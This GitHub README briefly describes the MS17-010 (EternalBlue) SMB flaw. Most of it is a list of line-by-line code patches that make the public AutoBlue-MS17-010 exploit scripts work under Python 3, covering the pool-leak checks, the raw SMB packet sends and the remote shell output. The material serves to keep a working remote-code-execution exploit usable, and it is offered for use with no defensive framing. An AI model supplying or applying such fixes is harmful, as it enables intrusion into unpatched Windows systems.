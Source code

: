 # AutoBlue MS17-010 Python 3 Fix

MS17-010 is a security vulnerability in Microsoft Windows operating systems that was discovered in March 2017. The exploit allows an attacker to remotely execute code on a target system by sending specially crafted packets to the Windows Server Message Block (SMB) protocol. This vulnerability was famously exploited by the WannaCry ransomware attack in May 2017, which affected hundreds of thousands of computers worldwide. Microsoft released a patch to fix the vulnerability shortly after it was discovered.

This repo provides suggestions to fix the Python 3 version of the AutoBlue-MS17-010 Exploit Code, specifically addressing the issue related to the interaction of variables with `bytes` and `str` types in the Python scripts `mysmb.py` and `zzz_exploit.py`.

The original repository containing all the exploit files can be accessed at: https://github.com/3ndG4me/AutoBlue-MS17-010

### The suggested changes for `zzz_exploit.py`:

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Don't need to use `ord()` to convert `leakData` to Unicode:
    ```python
    Original:
    324        info['FRAG_POOL_SIZE'] = ord(leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ]) * X86_INFO['POOL_ALIGN']
    ---
    Modified:
    324        info['FRAG_POOL_SIZE'] = leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ] * X86_INFO['POOL_ALIGN']
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Don't need to use `ord()` to convert `leakData` to Unicode:
    ```python
    Original:
    328        info['FRAG_POOL_SIZE'] = ord(leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ]) * X64_INFO['POOL_ALIGN']
    ---
    Modified:
    328        info['FRAG_POOL_SIZE'] = leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ] * X64_INFO['POOL_ALIGN']
    ```

- Use `bytes` instead of `str` to join the `reqs` elements:
    ```python
    Original:
    399        conn.send_raw(req1[-8:]+req2+req3+''.join(reqs))
    ---
    Modified:
    399        conn.send_raw(req1[-8:] + req2 + req3 + b''.join(reqs))
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != 'Frag':
    ---
    Modified:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != b'Frag':
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    429        if leakData[0x4:0x8] != 'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ---
    Modified:
    429        if leakData[0x4:0x8] != b'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ```

### The suggested changes for `mysmb.py`:

- Don't need to import `smbserver`, just remove it:
    ```python
    Original:
    3          from impacket import smb, smbconnection, smbserver
    ---
    Modified:
    3          from impacket import smb, smbconnection
    ```

- Don't neet to import `ConfigParser`, just remove it:
    ```python
    Original:
    9          try:
    10             import ConfigParser
    11         except ImportError:
    12             import configparser as ConfigParser
    ```

- Don't need to define the values below, just remove it:
    ```python
    Original:
    17         SMBSERVER_DIR   = '__tmp'
    18         DUMMY_SHARE     = 'TMP'
    ```

- Verify if `data` need to be converted to `bytes`:
    ```python
    Original:
    89         transData += (b'\x00' * padLen) + str.encode(data)
    ---
    Modified:
    83         if (type(data) == bytes):
    84             transData += (b'\x00' * padLen) + data
    85         else:
    86             transData += (b'\x00' * padLen) + data.encode('utf-8')
    ```

- Substitute `%COMPUTERNAME%` by localhost address `127.0.0.1`:
    ```python
    Original:
    420        self.__output = '\\\\%COMPUTERNAME%\\{}\\{}'.format(self.__share,self.__outputFilename)
    ---
    Modified:
    417        self.__output = '\\\\127.0.0.1\\{}\\{}'.format(self.__share,self.__outputFilename)
    ```

- Remove `errors='replace'` inside `decode()`:
    ```python
    Original:
    483        self.prompt = self.__outputBuffer.decode(errors='replace').replace('\r\n','') + '>'
    ---
    Modified:
    489        self.prompt = self.__outputBuffer.decode().replace('\r\n','') + '>'
    ```

- Don't need to convert `fd.read()` to `bytes`:
    ```python
    Original:
    502        output_callback(fd.read().encode('utf-8'))
    ---
    Modified:
    499        output_callback(fd.read())
    ```

- Remove `errors='replace'` inside `decode()`:
    ```python
    Original:
    528        print(self.__outputBuffer.decode(errors='replace'))
    ---
    Modified:
    525        print(self.__outputBuffer.decode())
    ```

- Remove third argument in `smbConfig.set()`:
    ```python
    Original:
    566        smbConfig.set('IPC$','path','')
    ---
    Modified:
    563        smbConfig.set('IPC$','path')
    ```

